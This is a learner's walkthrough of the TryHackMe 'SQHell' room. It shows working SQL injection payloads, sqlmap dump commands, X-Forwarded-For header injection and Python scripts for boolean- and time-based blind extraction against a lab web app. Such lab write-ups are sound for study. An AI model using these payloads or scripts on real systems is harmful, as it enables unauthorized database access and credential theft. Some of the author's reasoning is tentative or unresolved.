<div align="center">


# SQHell

**Difficulty:** Medium  
**Category:** SQL / Hell

</div>

---


## SQLMAP

```bash
sqlmap -u http://10.80.151.182/login --forms
```





The payload being used is:
```payload
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=LmFT' AND (SELECT 7154 FROM (SELECT(SLEEP(5)))pZgO) AND 'pVaZ'='pVaZ&password=IOwq
---
```


```bash
sqlmap -u http://10.80.151.182/login --columns
```
Gives me:

Database:
* information_schema
	* ADMINISTRABLE_ROLE_AUTHORIZATIONS
* sqhell_2
	* users
		* id
		* username
		* password

```bash
sqlmap -u http://10.80.151.182/login -D sqhell_2 -T users --dump
```



## I am going to do it manually instead

This HTTP request got me the first flag:
```http
POST /login HTTP/1.1
...
username=a' OR 1=1; -- &password= 
```



In the register field:

```HTTP
GET /register/user-check?username=admin HTTP/1.1
```
This gives me:
```json
{"available":false}
```

```HTTP
GET /register/user-check?username=admin' OR 1=1 HTTP/1.1
```
Gives:
```json
{"available":true}
```

Boolean-Based SQLi.

Nope, it just says that `admin'` is a valid username...

```http
username=admin' AND database() = 'sqhell_2' --  &password=
```

DB:
* sqhell_2


## NVM Not Doing it Manually
```bash
sqlmap -u <url> --dbms=MySQL --dbs --forms --batch
```
`--batch`uses all the default options, no need to press yes. Nice!
`--dbs`list all dbs.
`--dbms`what type of db is being used.


```http
GET /post?id=-1 UNION SELECT 1,2,group_concat(id,":",flag SEPARATOR '<br>'),4 FROM flag HTTP/1.1
Host: 10.80.137.186
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```flag
1:THM{FLAG5:B9C<REDACTED>5B3FDF3C8}
```

## I just learned something awesome!
The request has to include you sending data to the field that is injectable. Sqlmap needs to be able to find where it is going to inject.

Generate a GET request to a page where you want to try for SQLi:
```http
GET /post?id=1 HTTP/1.1
Host: 10.80.137.186
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Place it in a txt file `sqlmap_post.request`

```bash
sqlmap -r sqlmap_post.request --dbms mysql -D sqhell_5 -T flag --dump --batch
```
Here I already knew the database name and the table name `flag`.


Now I dont know the database:
```http
GET /register/user-check?username=a HTTP/1.1
Host: 10.80.137.186
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Referer: http://10.80.137.186/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Into a file `sqhell_register.request` and then:
```bash
sqlmap -r sqhell_register.request --dbms mysql --dbs --batch
```
Will get me the dbs:



```bash
sqlmap -r sqhell_register.request --dbms mysql -D sqhell_3 --tables --batch
```



```bash
sqlmap -r sqhell_register.request --dbms mysql -D sqhell_3 -T flag --dump --batch
```

```bash
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:97A<REDACTED>F3A5FAF8F308} |
+----+---------------------------------------------+
```

I know `sqhell_2`is connected to the login page. So I generate a login post request.
```bash
sqlmap -r sqhell_login.request --dbms mysql -D sqhell2 --tables --batch
```
Only the table users. with the admin I already logged in as.

The hint is:
"Make sure to read the terms & conditions":



**iii: We log your IP address for analytics purposes**
The server tracks the IP address when connecting through HTTP header. X-Forwarded-For is an HTTP header field that is considered as de facto for this purpose.

```bash
mysql -u http://10.80.137.186/ --headers="x-forwarded-for:*" -D sqhell_1 --tables --batch
```



```bash
sqlmap -u http://10.80.137.186/ --headers="x-forwarded-for:*" -D sqhell_1 -T flag --dump --batch
```

```bash
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:C678<REDACTED>01CEDAB1D15} |
+----+---------------------------------------------+
```


I need to look into that header. What it REALLY means.
I cant see it in any of the HTTP being sent...
#AfterReview **This is because it is the reverse proxy who adds this header**




```bash
http://10.80.137.186/user?id=2 union all select "1 union select 1,flag,3,4 from flag-- -",1,2 from users#


- [THM{FLAG4:BDF<REDACTED>B426BEF}](http://10.80.137.186/post?id=1)
```

## Explaining the last flag:
Since the hint was towards "tracking your  IP Address" we are to look at certain HTTP headers that use IP addresses. The header that was vulnerable was the `x-forwarded-for`header. This is used by `Reverse Proxies`to keep track of the client's original IP address.

When a reverse proxy receives the HTTP request from the client, it adds the `x-forwarded-for`header in order for the server to keep track of the original IP address. **Who it was forwarded for..** 

* **The header was invented so that when traffic passes through proxies, the back-end application can still learn the client's original address**.
* The application reads **X-Forwarded-For** instead of the TCP connection's source IP because, from its perspective, the TCP connection came from Nginx (The reverse proxy)
* Imagine if the back-end wants to block the request because of the IP, this allows that.

**The vulnerability:**
* The reverse proxy trusts that if the client applies the flag in the HTTP request, so that it already exists BEFORE reaching the reverse proxy, it will be valid. 
* To fix this, the reverse proxy should not trust the client and replace the `X-Forwarded-For"`header every time.

# Python Solution


Directories:



## Login

```python
import requests

url = "http://10.80.154.164/login"
data = {
    "username": "admin' OR 1=1; --",
    "password": ""
}

res = requests.post(url=url,data=data)

print(res.text)
```
This gets me the first flag:
```flag
THM{FLAG1:E786<REDACTED>92E823BD2}
```

## Register



This check updates for each letter i type:



I can go to this endpoint and try here:



This is the URL I will try to use SQLi on.

```python
import requests

url = "http://10.80.154.164/register/user-check?username=admin"
res = requests.get(url)
print(res.text)
```
This shows me:



While:
```python
url = "http://10.80.154.164/register/user-check?username=admin' OR 1=1"
```
Gives me:



FALSE POSITIVE!
The username is read "admin' OR 1=1" as a string.

This solves it:
```url
http://10.80.154.164/register/user-check?username=admin'; aa
```



This means that `';` exits the query.

But this does not make it true:
```url
http://10.80.154.164/register/user-check?username=admin'; OR 1=1;
```

This is also false:
```url
http://10.80.154.164/register/user-check?username=admin' OR (1=1);
```



Which means I can escape with just a `'`.

This does not break the query???
```url
http://10.80.154.164/register/user-check?username=admin' (OR (1=2));
```



* I don't understand...

The query looks something like:
```mysql
SELECT ... FROM users WHERE username = '$query'
```

This makes mine into:
```mysql
SELECT ... FROM users WHERE username = 'admin' OR 1=1; -- '
```
But it does not work.

```url
http://10.80.154.164/register/user-check?username=admin' asdasdasd; OR 1=1; --
```



* It seems like the query is until the `;`(semicolon).
* But no... 
```url
http://10.80.154.164/register/user-check?username=admin' OR 1=1;--
```


```url
http://10.80.154.164/register/user-check?username=admin' AND 1=2;--
```



While:
```url
http://10.80.154.164/register/user-check?username=admin' AND 1=1;--
```



SO:
Only admin gives `available: false`.
* This means that the "admin" statement is `false`.
* Combined with another false statement `1=2`makes the query `true`?
* **false AND false** = **true**?

### **This is how it works**
Let's say that the query looks like this:
```mysql
SELECT * FROM users
WHERE username = 'admin';
```

This makes my request:
```mysql
SELECT * FROM users
WHERE username = 'admin' AND 1=1;
```
"Return everything from users where username = 'admin and TRUE".
* Returns the user `admin`.
	* Because the users exists, `available` will be false.

```mysql
SELECT * FROM users
WHERE username = 'admin' AND 1=2;
```
"Return everything from users where username = 'admin' AND FALSE"
* Because of the `AND FALSE`, the `WHERE`-clause will always be false.
* Nothing will be returned.
	* It looks like `admin` does not exist, `available` will be true.

Python script:
```python
import requests
import string

characterList = string.ascii_lowercase + string.ascii_uppercase + "0123456789_"
database = ""

while True:

    for c in characterList:    
        possible_database = f"{database}{c}"
        url = f"http://10.80.154.164/register/user-check?username=admin' AND database() LIKE '{possible_database}%'; --"
        
        res = requests.get(url)

        if "false" in res.text:
            database += c
            print(database)

```



Keep in mind that `_`can either be an underscore or a joker for ANY character.

Database: `sQhelL_3`?

```mysql
SELECT * FROM users
WHERE username = 'admin' AND database() = 'sqhell_3';
```
Produces `available: false` indicating we have the right db.

```mysql
SELECT * FROM users
WHERE username = 'admin' AND table_name FROM information_schema.tables WHERE table_schema = 'sqhell_3' AND table_name LIKE 'c%';
```
This does not work, I have to return a Boolean after the `AND`statement:

```mysql
SELECT * FROM users
WHERE username = 'admin' AND EXISTS(SELECT 1 FROM information_schema.tables WHERE table_schema = 'sqhell_3' AND table_name LIKE 'c%');
```
`EXISTS` returns a boolean.

```PYTHON
url = (
    "http://10.80.154.164/register/user-check?username=admin' " 
    "AND EXISTS(SELECT 1 FROM information_schema.tables " 
    f"WHERE table_schema = 'sqhell_3' AND table_name LIKE '%');"
) 
```
Returns false!

Script to get the table_name
```python
import requests
import string
import time

characterList = string.ascii_lowercase + string.ascii_uppercase + "0123456789_"
table = ""

while True:
    for c in characterList:    
        time.sleep(0.1)

        possible_table = f"{table}{c}"
        url = (
            "http://10.80.154.164/register/user-check?username=admin' " 
            "AND EXISTS(SELECT 1 FROM information_schema.tables " 
            f"WHERE table_schema = 'sqhell_3' AND table_name LIKE '{possible_table}%');"
        ) 
        
        res = requests.get(url)

        if "false" in res.text:
            table += c
            print(table)
            break
```
I added `time.sleep(0.1)` because I noticed it skipped characters that turned out to be valid. 
* I later found that the reason was that I did not have a `break` in the "if "false..." block.
	* This made it so that when a letter was found, the next search would start at the letter after the one that was found, the new search would not start with "a".
		* When "f" was found the next search would be "g".
		* break fixes this.



Table is flag!

Url for the column:
```python
url = (
		"http://10.80.154.164/register/user-check?username=admin' " 
		"AND EXISTS(SELECT 1 FROM information_schema.columns " 
		f"WHERE table_name = 'flag' AND column_name LIKE '{cur}%');"
	) 
```



Column is flag aswell!

URL to get the flag:
```python
url = (
	"http://10.80.154.164/register/user-check?username=admin' " 
	f"AND EXISTS(SELECT 1 FROM flag WHERE flag like '{cur}%'); --"
) 

# I also had to add a few characters to the list:
characterList = string.ascii_lowercase + string.ascii_uppercase + "0123456789}:" +"{_"
```
* Important to place `_` is the end, since it matches anything!



This is so satisfying
```flag
thm{flag3:97ae<REDACTED>f8f308}
```


## Post
```URL
http://10.80.154.164/post?id=1 UNION SELECT 1,2,3,4
```
**Union-Based** and **In-Band** based SQLi. (easiest one)

1. Append a column until you get no error (1,2,3,4), 4 columns.
2. Change 1 to a 0 to only get the injected query (expecting there is no valid id=0)



Now we know which column to inject into.

```URL
http://10.80.154.164/post?id=0 UNION SELECT 1,2,database(),4
```
Gives me:



```URL
http://10.80.154.164/post?id=0 UNION SELECT 1,2,table_name,4 FROM information_schema.tables WHERE table_schema = 'sqhell_5' AND table_name = '%'
```



```URL
http://10.80.154.164/post?id=0 UNION SELECT 1,2,column_name,4 FROM information_schema.columns WHERE table_schema = 'sqhell_5' AND table_name = 'flag'
```


```URL
http://10.80.154.164/post?id=0 UNION SELECT 1,2,flag,4 FROM flag
```



```flag
THM{FLAG5:B9C6<REDACTED>DF3C8}
```

## User
**Union-Based** and **In-Band** again.

```URL
http://10.80.154.164/user?id=1 UNION SELECT 1,2,3
```
Add a column until there are no errors.



```URL
http://10.80.154.164/user?id=1 UNION SELECT 1,database(),3
```



```URL
http://10.80.154.164/user?id=1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema = 'sqhell_4' AND table_name LIKE '%'
```
I get no output...


```URL
http://10.80.154.164/user?id=1 UNION SELECT 1,SLEEP(2),3 FROM information_schema.tables WHERE table_schema = 'sqhell_4' AND table_name LIKE '%'
```
I get a delayed response

And I get an instant response here:
```url
http://10.80.154.164/user?id=1 UNION SELECT 1,SLEEP(2),3 FROM information_schema.tables WHERE table_schema = 'sqhell_4' AND table_name LIKE 'asdasdasd'
```
Indicating **Blind Time-Based SQLi**.

I will have to write a script that checks if the response is delayed, and by so determine what exists and not.

Script to find table:
```python
import time
import requests
import string


characterList = string.ascii_lowercase + string.ascii_uppercase + "0123456789}:" +"{_"
exists = ""

while True:
    for c in characterList:
        cur = f"{exists}{c}"
        url = (
            "http://10.80.154.164/user?id=0 UNION SELECT 1,SLEEP(2),3 "
            "FROM information_schema.tables WHERE table_schema = 'sqhell_4' "
            f"AND table_name LIKE '{cur}%'"
        )

        print(f"[+] Testing: {cur}")    
        start_time = time.time()
        res = requests.get(url=url)
        end_time = time.time()


        if (end_time-start_time) > 1:
            print(f"[##] Valid: {cur}")
            exists += c
            break
```
If the response takes longer than 1 second, we have a valid character.



Table users



Column `id`.
* This is not really interesting, so I added this line in the loop:
```python
if c != 'i': 
	(rest_of_loop)
```
* This means we will not find any other columns that start with an `i`.



Column `password`.
* Do the same thing for `p`.
```python
if c != 'i' and c != 'p':
	(rest_of_loop)
```



Column `username`.

We know that we have all of the columns now, since the first step required 3 columns in order to not throw an error.

In order to get the entries for, let's say usernames. We have to change our query.
From "does the username begin with this" to "is the character at this position equal to".

FROM
```mysql
0 UNION SELECT 1,SLEEP(2),3 FROM users WHERE username LIKE 'cur%'
```

TO
```mysql
0 UNION SELECT 1,SLEEP(2),3 FROM users WHERE SUBSTRING(username,1,1)='character'
```

Now I found a user:
```python
characterList = string.ascii_lowercase + string.ascii_uppercase + "0123456789}:" +"{_"
exists = ""
i=1

while True:
    for c in characterList:
            
        cur = f"{exists}{c}"

        url = (
            "http://10.80.154.164/user?id=0 UNION SELECT 1,SLEEP(2),3 "
            f"FROM users WHERE SUBSTRING(username,{i},1)='{c}'"
        )

        print(f"[+] Testing: {c}")    
        start_time = time.time()
        res = requests.get(url=url)
        end_time = time.time()


        if (end_time-start_time) > 1:
            print(f"[##] Valid: {c} at index: {i}")
            exists += c
            i +=1
            print(exists)
            break
```



Look for more users.
* Add this:
```python
if c != 'a':
	(rest_of_loop)
```



Bruh
```python
if c != 'a' and c != 'A':
	(rest_of_loop)
```

Did not find anything, check password column:
```python
url = (
	"http://10.80.154.164/user?id=0 UNION SELECT 1,SLEEP(2),3 "
	f"FROM users WHERE SUBSTRING(password,{i},1)='{c}'"
)
```



Cant find any other passwords...


The flag is in another database!

```python
url = (
	"http://10.80.154.164/user?id=0 UNION SELECT 1,SLEEP(2),3 "
	f"FROM information_schema.schemata WHERE schema_name LIKE '{cur}%'"
)
```
This will get all the databases that are available.



```python
if c != 'i':
	(rest_of_loop)
```



Of course we find this.
```python
if c != 'i' and c != 's':
	(rest_of_loop)
```



bruh

no other database?

```URL
http://10.10.49.93/user?id=13 union all select "1 UNION SELECT 1,flag,4,5 from flag-- -",2,3 from information_schema.tables where table_schema=database()
```
I still don't understand this.

